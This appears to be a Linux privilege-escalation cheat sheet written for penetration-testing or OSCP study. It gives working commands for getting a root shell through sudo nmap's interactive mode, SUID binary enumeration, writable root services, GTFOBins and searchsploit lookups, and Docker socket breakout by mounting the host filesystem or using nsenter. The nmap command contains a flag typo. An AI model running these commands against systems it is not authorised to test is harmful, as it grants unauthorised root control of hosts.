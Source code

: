 NOPASSWD - run Sudo without a password
```bash
$ sudo -l                # confirm misconfiguration
$ sudo nmap --interative # start interactive nmap
nmap> !sh                # pop root shell
```

LD_PRELOAD


### SUID / SGID

[SUID3ENUM.py](https://github.com/Anon-Exploiter/SUID3NUM)
* Find SUID binaries -> cross-match with GTFO bins.
* Don't use `-e` flag for auto-exploitation (OSCP banned).
```
$ python suid3num.py
```

### Running services

Tips:
* Check firewall rules.
* Check for anti-virus software and see if you need to disable.

Method 1:
* Check if services running as root are writable by user.
* Overwrite binary or reference file/arg with your own payload for privesc.

Method 2:
* Check version of services running as root.
* See if vulnerable to a local privilege escalation vuln.

### Binary service versions

GTFOBins
* GTFOBins are a list of Unix binaries that can be used for privesc in misconfigured systems.
* Check your binaries against [GTFOBins list](https://gtfobins.github.io/).

Vulnerable binary versions
1. Look for binaries, especially non-standard ones.
2. Run `$ searchsploit [binary_name] [version]` and exploit.

### Docker privesc

Basic privesc example: https://flast101.github.io/docker-privesc/
More on Docker breakout & privesc: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

Writable Docker Socket */var/run/docker.sock*: [see here](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket)
* Detected Linpeas.sh or manually.
* Requires image -> if none, run `docker pull` to download an image to machine.
```
# CHECK IF WRITABLE
$ ls -la /var/run/docker.sock

# OPTION 1
$ docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash

# OPTION 2
$ docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

